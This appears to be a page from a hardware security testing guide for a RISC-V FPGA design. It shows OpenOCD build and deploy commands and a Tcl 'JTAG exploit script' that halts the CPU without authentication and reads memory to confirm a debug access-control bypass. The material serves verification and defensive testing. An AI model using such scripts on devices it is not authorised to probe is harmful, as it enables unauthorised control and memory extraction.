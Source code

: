 ### Step 2: Build and Deploy Dynamic Tests
```bash
# Build our vulnerability test suite
cd $REPO_TOP
make -C tests/dynamic_analysis vulnerability_test_framework_fpga

# Deploy to FPGA
openocd -f interface/ftdi/digilent_nexys_video.cfg \
        -f target/riscv.cfg \
        -c "init; halt; load_image tests/dynamic_analysis/vulnerability_test_framework.elf; resume; exit"
```

---

## Vulnerability Exploitation Testing

### Step 1: Debug Access Control Bypass (Dynamic Testing)

Create JTAG exploit script:
```bash
# File: tests/dynamic_analysis/debug_exploit.tcl
# OpenOCD script to test debug vulnerability

proc test_debug_bypass {} {
    echo "=== Testing Debug Access Control Bypass ==="
    
    # Connect to debug module without authentication
    init
    
    # Attempt to halt CPU (should require privileges)
    echo "Attempting unauthorized CPU halt..."
    halt
    
    # Check if halt succeeded
    set cpu_state [reg pc]
    if {$cpu_state != ""} {
        echo "VULNERABILITY CONFIRMED: CPU halted without authorization!"
        echo "Current PC: $cpu_state"
        
        # Try to read memory (should also require privileges)
        set memory_data [read_memory 0x20000000 32 4]
        echo "Memory read result: $memory_data"
        
        # Resume CPU
        resume
        return 1
    } else {
        echo "Debug access properly protected"
        return 0
    }
}

# Execute test
test_debug_bypass
exit
```

